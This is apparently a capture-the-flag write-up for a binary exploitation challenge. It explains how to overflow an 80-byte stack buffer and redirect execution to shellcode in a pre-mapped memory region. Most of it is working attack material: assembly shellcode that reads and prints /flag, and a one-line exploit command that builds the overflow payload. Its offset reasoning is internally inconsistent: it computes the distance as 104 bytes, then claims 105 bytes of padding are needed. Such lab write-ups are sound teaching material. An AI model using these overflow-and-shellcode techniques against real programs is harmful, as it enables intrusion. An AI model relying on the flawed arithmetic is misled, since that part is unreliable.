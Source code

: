 # **Binary Exploitation: Hijack to Mapped Shellcode (Easy) - Complete Writeup**

## **Challenge Overview**
This challenge requires hijacking program control flow to execute shellcode loaded in a separate memory-mapped region. The program provides:
- A vulnerable buffer (80 bytes)
- A pre-mapped executable region for shellcode
- Disabled stack protections (no canary, executable stack)
- Detailed stack layout information

## **Key Components**

### **1. Memory Layout**
```
Input buffer:    0x7ffd22cfc720 (80 bytes)
Return address:  0x7ffd22cfc788 (offset +0x68 from buffer start)
Shellcode region: 0x1f234000 (provided by challenge)
```

### **2. Vulnerability**
- Buffer overflow possible (can write beyond 80 bytes)
- No stack canary to detect overflows
- Return address can be overwritten

## **Solution Strategy**

### **1. Shellcode Preparation**
We use standard flag-reading shellcode:
```asm
section .text
global _start

_start:
    ; Open /flag
    xor rax, rax
    push rax
    mov rbx, 0x67616c662f2f2f2f  ; '////flag' in reverse
    push rbx
    mov rdi, rsp
    mov al, 2          ; sys_open
    xor rsi, rsi       ; O_RDONLY
    xor rdx, rdx       ; mode
    syscall

    ; Read file
    mov rdi, rax       ; fd
    mov rsi, rsp       ; buffer
    mov dl, 0x40       ; read 64 bytes
    xor eax, eax       ; sys_read
    syscall

    ; Write to stdout
    xor edi, edi
    inc edi            ; stdout = 1
    xor eax, eax
    inc eax            ; sys_write = 1
    syscall

    ; Exit
    xor eax, eax
    mov al, 60         ; sys_exit
    xor edi, edi       ; exit code 0
    syscall
```

### **2. Exploit Construction**

#### **Critical Offset Calculation**
```
Return address offset = 0x7ffd22cfc788 - 0x7ffd22cfc720 = 0x68 (104 decimal)
```
However, we need **105 bytes** of padding because:
- Bytes 0-103 fill the buffer (104 bytes)
- Byte 104 starts overwriting the return address

#### **Payload Structure**
1. **First Input (Shellcode)**:
   - Sent to mapped region at 0x1f234000
   - Contains our flag-reading code

2. **Second Input (Overflow)**:
   ```
   [105 bytes padding] + [8-byte shellcode address]
   ```

### **3. Final Exploit Command**
```bash
(cat shellcode.bin; python3 -c 'import sys; sys.stdout.buffer.write(b"A"*105 + b"\x00\x40\x23\x1f\x00\x00\x00\x00")') | /challenge/binary-exploitation-hijack-to-mmap-shellcode-w
```

## **Step-by-Step Execution**

1. **Program Initialization**:
   - Maps shellcode region at 0x1f234000
   - Shows stack layout with buffer at 0x7ffd22cfc720

2. **Shellcode Loading**:
   - First input (shellcode.bin) is written to 0x1f234000
   - Challenge verifies the loaded shellcode

3. **Buffer Overflow**:
   - 105 bytes of padding ('A's) fill the buffer and start overwriting return address
   - Next 8 bytes set return address to 0x1f234000

4. **Control Flow Hijack**:
   - Function returns to our shellcode
   - Shellcode executes, reading and printing the flag

## **Why This Works**

1. **Precise Overflow Calculation**:
   - 105 bytes reaches exactly the start of return address
   - 8-byte address overwrite redirects execution cleanly

2. **Memory Permissions**:
   - Shellcode region is executable
   - Stack protections are disabled

3. **Shellcode Reliability**:
   - Uses position-independent techniques
   - Avoids null bytes
   - Handles file operations correctly

## **Key Lessons Learned**

1. **Offset Calculation**:
   - Always verify exact memory distances
   - Account for zero-based vs one-based counting

2. **Input Sequencing**:
   - Challenge expects shellcode first, then overflow
   - Order matters in multi-stage inputs

3. **Architecture Details**:
   - Little-endian address formatting
   - x86_64 calling conventions

## **Debugging Tips**

If the exploit fails:
1. Check the stack dump to verify:
   - Padding reaches return address
   - Address is overwritten correctly
2. Verify shellcode is properly loaded:
   - Compare with challenge's disassembly output
3. Test with debugger:
   - Set breakpoints at return instructions
   - Examine register states

## **Conclusion**
This challenge demonstrates fundamental control flow hijacking:
1. Leveraging buffer overflows
2. Redirecting execution to injected code
3. Using provided memory regions effectively

The solution combines precise memory calculation with reliable shellcode construction, providing a foundation for more advanced exploitation techniques.
